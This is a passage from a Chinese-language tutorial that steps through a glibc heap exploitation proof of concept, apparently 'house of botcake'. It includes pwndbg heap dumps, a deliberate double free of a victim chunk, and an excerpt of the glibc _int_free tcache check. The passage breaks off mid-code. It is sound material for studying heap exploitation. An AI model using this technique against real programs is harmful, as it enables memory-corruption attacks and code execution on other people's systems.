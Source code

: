 ```c
0x5555557578b0:	0x0000000000000000	0x0000000000000111 #chunk6(free-tcachebin)
0x5555557578c0:	0x00005555557577b0	0x0000555555757010
......
0x5555557579c0:	0x0000000000000000	0x0000000000000221 #chunk_prev(free-unsortedbin)---
    								#changed										  |
0x5555557579d0:	0x00007ffff7dcdca0	0x00007ffff7dcdca0								  |
    			#changed			#changed										  |
......																chunk_prev范围 ----|
0x555555757ad0:	0x0000000000000000	0x0000000000000111 #chunk_victim(free-unsortedbin)|
									#注意：这里的size并不会清空						   ｜
0x555555757ae0:	0x00007ffff7dcdca0	0x00007ffff7dcdca0 #这里的指针并不会清空			    |
......																				  |
0x555555757be0:	0x0000000000000220	0x0000000000000020 #chunk(avoid top chunk)--------| 
    			#changed
0x555555757bf0:	0x0000000000000000	0x0000000000000000
0x555555757c00:	0x0000000000000000	0x0000000000020401 #top_chunk
......
0x555555757c70:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

接下来我们在申请一个大小为0x100的堆块（b 60->c），这个堆块会从tcachebin中取得：

```c
    puts("Step 4: add the victim chunk to tcache list by taking one out from it and free victim again\n");
    malloc(0x100);
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1620952259763-0457be03-6e4d-4f51-80ca-0d672b27c9b5.png)

接下来我们将再次对chunk_victim进行free（b 64->c）：

> **这里注意，在此次free之前（chunk_victim）已经被free**
>

```c
    /*VULNERABILITY*/
    free(a);// a is already freed //free(a)==free(chunk_victim)
    /*VULNERABILITY*/
```

这一步十分的重要，这里选择引入malloc源码进行调试，进入_int_free函数之后看一下程序的栈帧：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1620952450250-061e2a58-d4cc-496b-882d-84f1803c6693.png)

在之前的堆块合并过程中由于chunk_victim的size并没有被清空，且在此POC中存在UAF漏洞，我们可以再次对chunk_victim进行free，此堆块free之后会进入tcachebin中：

```c
#if USE_TCACHE
  {
    size_t tc_idx = csize2tidx (size);
    if (tcache != NULL && tc_idx < mp_.tcache_bins)
      {
	/* Check to see if it's already in the tcache.  */
	tcache_entry *e = (tcache_entry *) chunk2mem (p);

	/* This test succeeds on double free.  However, we don't 100%
	   trust it (it also matches random payload data at a 1 in
	   2^<size_t> chance), so verify it's not an unlikely
	   coincidence before aborting.  */
	if (__glibc_unlikely (e->key == tcache))
	  {
	    tcache_entry *tmp;
	    LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
	    for (tmp = tcache->entries[tc_idx]; //检测double free
```